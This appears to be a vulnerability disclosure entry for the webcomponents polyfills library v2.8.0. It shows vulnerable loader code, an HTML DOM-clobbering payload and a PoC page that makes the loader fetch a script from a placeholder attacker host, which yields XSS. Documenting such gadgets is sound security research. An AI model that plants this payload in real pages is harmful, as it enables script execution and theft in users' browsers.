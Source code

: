 ## polyfills

### Meta

+ Library: polyfills
+ Stars: 1.1K
+ Version: v2.8.0
+ Fingerprint: `window.WebComponents !== 'undefined'`
+ Payload: ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL: https://github.com/webcomponents/polyfills

### Vulnerable Code Snippet

```javascript
  var name = 'webcomponents-loader.js';
  // Feature detect which polyfill needs to be imported.
  var polyfills = [];
  if (
    !(
      'attachShadow' in Element.prototype && 'getRootNode' in Element.prototype
    ) ||
    (window.ShadyDOM && window.ShadyDOM.force)
  ) {
    polyfills.push('sd');
  }
```

```javascript
if (polyfills.length) {
  var url;
  var polyfillFile = 'bundles/webcomponents-' + polyfills.join('-') + '.js';

  // Load it from the right place.
  if (window.WebComponents.root) {
    url = window.WebComponents.root + polyfillFile;
    if (
      window.trustedTypes &&
      window.trustedTypes.isScriptURL(window.WebComponents.root)
    ) {
      url = policy.createScriptURL(url);
    }
  } 
  ...
  var newScript = document.createElement('script');
  newScript.src = url;
}
```

## PoC

```html
<!DOCTYPE html>
<html>
<head>
  <title>Polyfills Example</title>
</head>

<a id="ShadyDOM"></a>
<a id="ShadyDOM" name="force"></a>
<a id="WebComponents"></a>
<a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>

<script src="./webcomponents-loader.js"></script>

<body>
</body>
</html>
```